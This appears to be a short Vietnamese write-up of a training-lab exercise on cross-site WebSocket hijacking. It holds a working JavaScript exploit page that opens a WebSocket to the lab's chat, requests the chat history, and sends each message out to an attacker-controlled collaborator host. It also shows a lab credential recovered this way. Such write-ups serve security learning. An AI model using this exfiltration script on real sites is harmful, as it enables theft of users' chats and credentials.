



## Cross-site WebSocket hijacking (REFER)

1. Nhận thấy khi reload lại live chat thì phía browser của client sẽ gửi message có nội dung `READY` thì phía server sẽ trả lại lịch sử live chat trước đó 



2. Craft trang exploit, tạo một wss request mới thông qua WebSocket object. Rồi gửi một message có nội dung ``READY`` để truy xuất lịch sử chat. Sau khi nhận được message thì fetch data vào body của request tới domain mình kiểm soát

```
<script>
    var ws = new WebSocket('wss://0ad700e303678808c2a4d91100fb009f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://framtw1jm5vie69o08e37tw8zz5qtf.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

3. View exploit nhận được lịch sử chat trong phiên của mình trong burp collaborator client. 



4. Gửi trang exploit đến victim, lấy được lịch sử chat của nạn nhân. Nhận thấy có chứa thông tin đăng nhập ``carlos:usrab7e2027hy4qzjk48``

